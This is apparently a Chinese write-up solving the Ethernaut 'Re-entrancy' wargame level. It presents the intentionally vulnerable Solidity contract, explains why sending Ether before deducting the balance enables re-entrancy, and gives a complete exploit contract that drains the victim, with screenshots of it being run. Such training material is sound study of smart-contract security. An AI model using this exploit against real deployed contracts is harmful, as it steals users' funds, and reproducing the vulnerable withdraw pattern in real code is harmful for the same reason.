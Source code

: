 ## Level_10.Re-entrancy

要求：

> 偷完该合约所有资金；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;
    // 捐赠
    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }
    // 查询余额
    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    // 取钱
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

### 分析

从题目名字就能看出，是个重入攻击；

一般有重入攻击的合约都是先转账再扣金额的，而且使用的是` addr.call{value}("") `这个转账函数；

```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value: _amount}("");
        balances[msg.sender] -= _amount;
    }
}
```

重入攻击就是当用户取款时，在` (bool result,) = msg.sender.call{value: _amount}(""); `这一句后发动重复的攻击，此时合约中存储我们账户余额的` mapping `还没有改动；有点类似递归，一直在调用，但还没返回；

如何来实现攻击呢？

写一个合约，使其有个` withdraw `函数，再来个` receive `函数：

```solidity
// 取款
function attack_withdraw() external {
    // 调用原withdraw
    victim.withdraw(money);
}
// 接收ETH时
receive() external payable {
    victim.withdraw(money);
}
```

1. 我们调用` attack_withdraw() `函数；
2. 调用` victim.withdraw() `取款；
3. 此时ETH到我们的合约上，正好又触发` receive() `函数；
4. ` receive() `函数又调用` victim.withdraw() `函数；
5. 触发` receive() `函数；
6. ...

直到目标合约没钱了；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;
import "./Ethernaut.sol";

contract Exp {
    Reentrance public re;
    // 给合约赋值，并且donate0.001
    constructor(address payable addr) public payable {
        re = Reentrance(addr);
        re.donate{value:0.001 ether}(address(this));
    }
    // 取款
    function withdraw() external {
        // 调用原withdraw
        re.withdraw(0.001 ether);
        // 此时钱在该合约里，所以需要给我们自己转账
        (bool res, ) = msg.sender.call{value:address(this).balance}("");
        require(res);
    }
    
    receive() external payable {
        re.withdraw(0.001 ether);
    }
}
```

部署合约，并捐赠：

![image-20250105232013719](./assets/image-20250105232013719.png)

发动重入攻击：

![image-20250105232201801](./assets/image-20250105232201801.png)

区块浏览器上查阅的详细信息：

![image-20250105232229652](./assets/image-20250105232229652.png)


